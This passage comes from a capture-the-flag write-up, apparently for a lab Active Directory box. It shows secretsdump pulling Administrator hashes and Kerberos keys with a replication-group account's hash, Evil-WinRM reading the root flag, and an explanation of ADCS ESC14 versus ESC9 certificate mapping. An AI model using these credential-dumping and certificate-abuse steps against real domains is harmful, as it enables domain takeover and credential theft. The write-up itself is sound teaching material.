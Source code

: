 ```bash
Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

And them we get admin with secretsdump since p.adams is part of the replication group.
```bash
ntpx secretsdump.py scepter.htb/p.adams@dc01.scepter.htb -hashes :1b925c524f447bb821a8789c4b118ce0 -no-pass -just-dc-user Administrator

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:cc5d676d45f8287aef2f1abcd65213d9575c86c54c9b1977935983e28348bcd5
Administrator:aes128-cts-hmac-sha1-96:bb557b22bad08c219ce7425f2fe0b70c
Administrator:des-cbc-md5:f79d45bf688aa238
[*] Cleaning up...
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
f4fc0***************************
```

---

# [ESC14](#back)

If you try and follow the steps for ESC9 from the certipy wiki it won't work. The reason for that is that the certificate generated doesn't have a otherName field on the certificate SAN (Subject Alternate Name). 

This is explained pretty well [here](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates).

Basically, when the `StrongCertificateBindingEnforcement` registry key is set to 1, it checks `altSecurityIdentities` (explicit mapping), and if it is not present, it checks the SAN otherName field (implicit mapping).

We can see that the flag is set to 1 with powershell:
```bash
*Evil-WinRM* PS C:\Users\h.brown\Documents> reg query "HKLM\SYSTEM\CurrentControlSet\Services\Kdc" /v StrongCertificateBindingEnforcement

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc
    StrongCertificateBindingEnforcement    REG_DWORD    0x1
```

Since the `StaffAccessCertificate` template doesn't add the `othername` field to the certificate it will always fail. Adding the `CT_FLAG_SUBJECT_ALT_REQUIRE_UPN` flag to the template makes so it does include the field. I am unsure if any other flags do that.

Diffing the certificate from this box with the one on the Certified box, which uses ESC9 on the root part, shows the difference:
```diff
+           X509v3 Subject Alternative Name:
+               email:h.brown@scepter.htb
-           X509v3 Subject Alternative Name:
-               othername: UPN::Administrator
```

